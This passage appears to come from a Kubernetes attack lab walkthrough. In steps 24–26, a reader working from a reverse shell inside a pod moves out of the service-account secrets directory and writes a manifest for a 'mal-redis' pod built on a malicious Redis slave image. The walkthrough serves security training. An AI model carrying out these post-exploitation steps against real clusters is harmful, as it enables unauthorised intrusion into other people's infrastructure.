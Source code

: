 ```text
            ]
        }]
    }
}
EOF
```


* Step 24: In the reverse shell, if the `pwd` is `/run/secrets/kubernetes.io/serviceaccount` you will have to navigate to the `tmp` directory. 

```commandline
pwd
```
```commandline
cd /tmp
```

### *root user of the pod will not have permission to create/edit files in `/run/secrets/kubernetes.io/serviceaccount`*

* Step 25: Copy the edited JSON from the previous step and paste it in `/tmp` directory.
**EXAMPLE**:
```bash
# Copy the JSON value you edited, please don't copy the one below
cat > mal-redis.json <<EOF
{
    "kind": "Pod",
    "apiVersion": "v1",
    "metadata": {
        "name": "mal-redis"
    },
    "spec": {
        "containers": [{
            "name": "mal-redis",
            "image": "we45/malicious-redis-slave",
            "env": [
              ... 
              ...
              ...
              ...
              }
            ]
        }]
    }
}
EOF
```

* Step 26: Check if `mal-redis.json` has been created in '/tmp/'

```commandline
ls
```
